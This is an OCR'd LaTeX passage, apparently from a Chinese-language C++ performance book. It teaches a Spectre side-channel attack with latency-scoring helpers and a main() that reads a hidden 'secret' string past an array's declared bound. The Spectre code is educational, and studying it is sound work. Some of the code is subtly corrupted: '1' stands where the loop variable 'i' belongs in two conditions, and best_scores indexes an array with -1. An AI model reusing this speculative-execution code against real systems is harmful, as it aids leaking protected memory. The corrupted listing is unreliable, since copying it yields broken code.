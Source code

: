 \hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

第二个函数只是在数组中找到两个最好的分数:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

我们有一个函数，它指定了数组之外返回单个字节的值，但不直接读取这个字节。我们会准备用它来获取一些秘密数据!为了演示，我们将分配一个非常大的数组，但通过指定一个较小的值作为数组的大小，将大多数数组指定为禁止访问的区域。实际上，这是唯一可以证明这种攻击的方法:自从发现Spectre漏洞以来，大多数计算机都打过补丁。因此，除非您的机器是上古机器，多年都没有更新，否则攻击将无法对任何不允许访问的内存进行攻击。补丁不会阻止对任何允许访问的数据使用Spectre，但必须检查代码，并证明它确实返回了值，而不是直接访问内存。我们的\texttt{spectre\_attack}函数在指定大小的数据数组之外没有读取任何内存，因此可以创建一个比指定大两倍的数组，并在上面半部分隐藏一条秘密消息:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

